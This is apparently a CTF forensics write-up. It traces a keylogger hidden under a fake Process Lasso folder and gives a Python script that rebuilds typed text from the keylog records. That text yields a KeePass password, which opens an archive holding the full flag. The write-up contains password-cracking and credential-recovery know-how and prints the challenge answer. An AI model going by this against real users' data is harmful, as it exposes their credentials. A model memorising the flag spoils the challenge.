

This is the election platform mentioned in the scenario, should have been created by a careless developer, or a vibe coder. Note that the 7z-compressed release of this app is recovered with our script, it lies in `_deleted`, I copy it out and rename it for better reading. Running `7z l` on it to list files inside, we see another `.env` file, what a nightmare. However, this 7z archive is password-protected. I tried use john the ripper to crack it open, but it's unbreakable, not the intended path for sure.



So we must actually find the unzip password, not by cracking it, while wandering around the D disk, I see this folder, mimicking the legitimate `Process Lasso`:



> Process Lasso is an advanced Windows process automation and optimization utility developed by Bitsum. While it resembles an upgraded version of the native Windows   Task Manager, its primary purpose is to act as a smart traffic controller for your computer's hardware, preventing your CPU from being overwhelmed by resource-heavy programs
>
> Some of its usage may be, for instance, lowering the priority of some background processes which spike to 100% CPU usage to keep the foreground apps responsive, inceasing gamers' experience with advanced settings, or even manually create some if/then rules to control processes.
>
> It does produce logs in `AppData\Roaming\ProcessLasso`, recording things such as exact date, time and name of any process that were temporarily throttled to preserve responsiveness, and other functions offered by itself.

As I've noted, the logs should not be in that place, and also not in that form, this log look somehow like keylog, so the attacker has sneakily placed the output log in this place to evade detection. Inside that folder, I also see a file `log.exe`, dehydrated, but was recovered with the script as `log@live-mft-rec149-sz7342410`, when decompiled with `ghidra` , I do not see any trace of keylogging, and when submitted to VirusTotal, it turns out to be a dropper:



So the true keylogger is either dropped by this program, or is hidden somewhere in the disk, but let's forget it, our task now is to handle the logs. Some of the logs are still present in the disk, and some of them were deleted but recovered by our script. The log format is quite uniform and comprehensible, so a simple python script would save the day, the most crucial thing is to handle the special key:

```python
import glob 
import os

def parse_log(file_path):
    parsed_text= ""
    with open(file_path, "r") as f:
        for line in f:
            if "pressed" in line:
                key_part = line.split(", ")[1].split(" pressed")[0]
                if key_part.startswith("Key."):
                    key_part = key_part.replace("Key.", "")
                    if key_part == "space":
                        parsed_text += " "
                    elif key_part == "enter":
                        parsed_text += "\n"
                    elif key_part == "backspace":
                        parsed_text = parsed_text[:-1]
                    elif key_part == "tab":
                        parsed_text += "\t"
                    elif "alt" in key_part:
                        parsed_text += ""
                    elif "ctrl" in key_part:
                        parsed_text += ""
                    elif "shift" in key_part:
                        parsed_text += ""
                    elif "caps_lock" in key_part:
                        parsed_text += ""
                    else:
                        parsed_text += key_part
                else:
                    parsed_text += key_part
        return parsed_text

if __name__ == "__main__":
    target_dir="./"
    log_files = glob.glob(os.path.join(target_dir, "*.dat"))
    for log_file in log_files:
        print("Result for file:", log_file)
        print(parse_log(log_file))
```

I export the logs file existing on disk, and the logs revived with dedup script into the same folder as the above script, all of them are with `.dat` extension, then run the script:



Got one password-like message, lmao I was tricked by my own script, even though I handled the enter key as newline character, somehow the `Hey` from the next message gets stuck to the password, leaving me struggle for a while. Also, that password is not for the 7z archive directly, in fact, it is password for the .`kdbx` KeePass password archive, found in `PasswordManager` folder:



The password turns out to be of `Dev.kdbx`, which makes sense as only devs have access to the project:



Once inside KeePass, I have a look at this `Starline` entry, this matches the project name, also the 7z archive's name, so this must be what we need!

Notice that there is indeed two `.7z` file revived from deduplication script, at first I only see one and extract & rename it, only after getting this imcomplete flag in a `.env` file inside it do I realize I missed the other:



Then I do the same thing with the other `.7z` file:



It holds the whole flag!



Alright, a very tricky challenge, worth it **Insane** difficulty.

`Flag: HTB{d4t@_d3dupl1c4t10n_1s_sup3r_und3rRat3d}`
